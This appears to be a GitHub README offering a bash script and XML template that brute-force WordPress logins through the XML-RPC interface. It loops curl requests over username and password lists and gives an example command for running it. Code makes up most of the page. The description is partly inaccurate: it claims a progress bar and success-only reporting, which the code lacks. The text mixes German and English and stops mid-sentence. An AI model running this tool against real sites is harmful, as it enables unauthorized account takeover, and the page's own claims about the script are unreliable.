 # XML-RPC automated costs

The shell script we developed is designed to test username and password combinations against a WordPress site via its XML-RPC interface. It accepts four parameters: the WordPress XML-RPC URL, a file with usernames, another with passwords, and an XML request template. The script iterates through each username and password pair, injecting them into the request template and sending the modified XML-RPC request to the specified URL. It incorporates a progress bar to visually indicate the completion status. The script reports back only when a successful login is achieved. This tool is useful for security testing, assuming proper authorization and ethical usage.



You should create an XML template file with a placeholder where the password will be inserted. Let's name this file `request_template.xml` and it should look like this:



```
// xml code
<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
    <methodName>wp.getUsersBlogs</methodName>
    <params>
       <param><value>§username§</value></param>
       <param><value>§password§</value></param>
    </params>
</methodCall>
```

```
// Bash code

#!/bin/bash

# Prüfen, ob genügend Argumente übergeben wurden
if [ "$#" -ne 4 ]; then
    echo "Usage: $0 [XML-RPC URL] [Username File] [Password File] [Request Template File]"
    exit 1
fi

# Zuweisen der Argumente zu Variablen
URL="$1"
USERNAME_FILE="$2"
PASSWORD_FILE="$3"
REQUEST_TEMPLATE_FILE="$4"

# Prüfen, ob die Benutzername- und Passwort-Dateien existieren
if [ ! -f "$USERNAME_FILE" ]; then
    echo "Username file not found: $USERNAME_FILE"
    exit 1
fi

if [ ! -f "$PASSWORD_FILE" ]; then
    echo "Password file not found: $PASSWORD_FILE"
    exit 1
fi

if [ ! -f "$REQUEST_TEMPLATE_FILE" ]; then
    echo "Request template file not found: $REQUEST_TEMPLATE_FILE"
    exit 1
fi

# Jeden Benutzernamen durchgehen
while read -r username; do
    # Jedes Passwort durchgehen
    while read -r password; do
        # Ersetzen der Platzhalter im XML-Template
        xml_request=$(sed "s/§username§/$username/" $REQUEST_TEMPLATE_FILE | sed "s/§password§/$password/")

        # Senden der Anfrage und Speichern der Antwort
        response=$(curl --silent --data "$xml_request" $URL)

        # Prüfen, ob die Antwort auf ein falsches Passwort hinweist
        if echo "$response" | grep -q "<string>Incorrect username or password.</string>"; then
            echo "Failed with username: $username and password: $password"
        else
            echo "Success with username: $username and password: $password"
            # Optional: Hier könnten Sie eine Pause einlegen oder das Skript beenden, wenn ein Erfolg erzielt wird
        fi

        # Optional: Pause zwischen den Anfragen
      #  sleep 2
    done < "$PASSWORD_FILE"
done < "$USERNAME_FILE"

```

```
// execute
./script.sh http://yourwordpresssite.com/xmlrpc.php usernames.txt passwords.txt request_template.xml

```

Um dieses Skript auszuführen, geben Sie die URL, den Pfad zur Datei mit Benutzernamen, den Pfad zur Passwortdatei und den Pfad zur XML-Vorlagendatei an. Zum Beispiel:
